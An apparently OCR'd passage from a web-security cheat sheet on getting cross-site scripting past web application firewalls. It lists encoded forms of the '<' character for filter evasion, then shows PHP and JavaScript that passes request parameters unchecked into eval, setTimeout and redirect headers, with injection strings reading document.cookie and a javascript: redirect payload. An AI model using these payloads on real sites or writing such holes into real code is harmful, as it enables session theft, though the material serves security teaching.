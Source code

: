 `&#x00003C;`  
`&#x000003C;`  
`&#X3C`  
`&#X03C`  
`&#X003C`  
`&#X0003C`  
`&#X00003C`  
`&#X000003C`  
`&#X3C;`  
`&#X03C;`  
`&#X003C;`  
`&#X0003C;`  
`&#X00003C;`  
`&#X000003C;`  
`\x3c`  
`\x3C`  
`\u003c`  
`\u003C`

  

# Methods to Bypass WAF – Cross-Site Scripting

General issues

• Stored XSS

If an attacker managed to push XSS through the filter, WAF wouldn’t be able to prevent the attack conduction.  

• Reflected XSS in Javascript

    Example: <script> ... setTimeout(\\"writetitle()\\",$\_GET\[xss\]) ... </script>
    Exploitation: /?xss=500); alert(document.cookie);//

• DOM-based XSS

    Example: <script> ... eval($\_GET\[xss\]); ... </script>
    Exploitation: /?xss=document.cookie

XSS via request Redirection.  
• Vulnerable code:

    ...
    header('Location: '.$_GET['param']);
    ...

As well as:

    ...
    header('Refresh: 0; URL='.$_GET['param']); 
    ...

• This request will not pass through the WAF:

    /?param=<javascript:alert(document.cookie>)
